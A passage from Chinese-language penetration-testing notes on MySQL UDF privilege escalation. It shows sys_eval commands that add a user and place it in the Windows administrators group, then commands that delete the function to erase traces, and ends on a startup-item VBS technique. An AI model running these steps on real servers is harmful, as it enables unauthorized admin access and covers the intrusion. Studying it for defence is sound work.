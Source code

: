   PS:需要创建dll文件中存在的函数，可以使用十六进制编辑器打开dll文件，可以查看到可利用的函数

  ​![image](assets/image-20241029142722-eojy1r0.png)​
* 执行函数，创建账号并提升为管理员权限

  ```bash
  select sys_eval("net user admingua1 123.com /add");
  select sys_eval("net localgroup administrators admingua1 /add");
  ```
* 清理痕迹

  ```bash
  drop function sys_eval;
  delete from mysql.func where name="sys_eval";
  ```

  ​​![image](assets/image-20241029152240-ryqdbwy.png)​​

​​

##### 启动项提权--vbs

###### 原理

将一段VBS脚本导入到开机启动项中，如果管理员重启了服务器，那么就会自动调用该脚本，并执行其中的用户添加及提权命令

###### 利用条件
